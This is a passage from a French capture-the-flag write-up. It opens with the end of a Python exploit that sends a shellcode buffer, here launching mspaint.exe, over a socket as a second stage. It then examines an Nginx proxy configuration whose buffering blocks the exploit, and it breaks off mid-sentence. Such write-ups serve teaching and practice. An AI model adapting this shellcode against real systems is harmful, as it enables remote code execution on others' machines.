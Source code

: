 ```python
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xe0\x1d"
buf += b"\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
buf += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
buf += b"\xff\xd5"
buf += b"C:\\Windows\\system32\\mspaint.exe"
buf += b"\x00"

print("Sending second stage...")
sock.send(buf)
sock.close()
```

Et ça marche en local !  

Plus qu'à voir si on peut adapter ça pour les conditions du challenge. L'archive présente sur le *Github* contient différents fichiers de configuration *Nginx* sur lesquels on va devoir se pencher :)  

Ce qui nous intéresse le plus c'est ceci :  

```plain
location / {
    # Backend server to forward requests to/from
    proxy_pass          http://127.0.0.1:8008;
    proxy_cache_convert_head off;
    proxy_cache_key $scheme$proxy_host$request_uri$request_method;
    proxy_http_version  1.1;

    # adds gzip
    gzip_static on;
}
```

La documentation de Nginx n'est pas très parlante quand au fonctionnement interne de la directive *proxy\_pass* mais en fouillant un peu sur *StackOverflow* on voit que le comportement par défaut consiste à faire du buffering, du coup notre exploit tombe à l'eau car il n'y a pas de moyen de laisser ouverte la connexion entre le Nginx et le binaire vulnérable.  

On peut facilement reproduire l’environnement du CTF en récupérant [Nginx pour Windows](https://nginx.org/en/docs/windows.html) et en recopiant le *nginx.conf*.  

On peut voir ainsi que si on chaîne deux requêtes en keep-alive sur le *Nginx* (par exemple en Python avec le système de session du module requests) :  
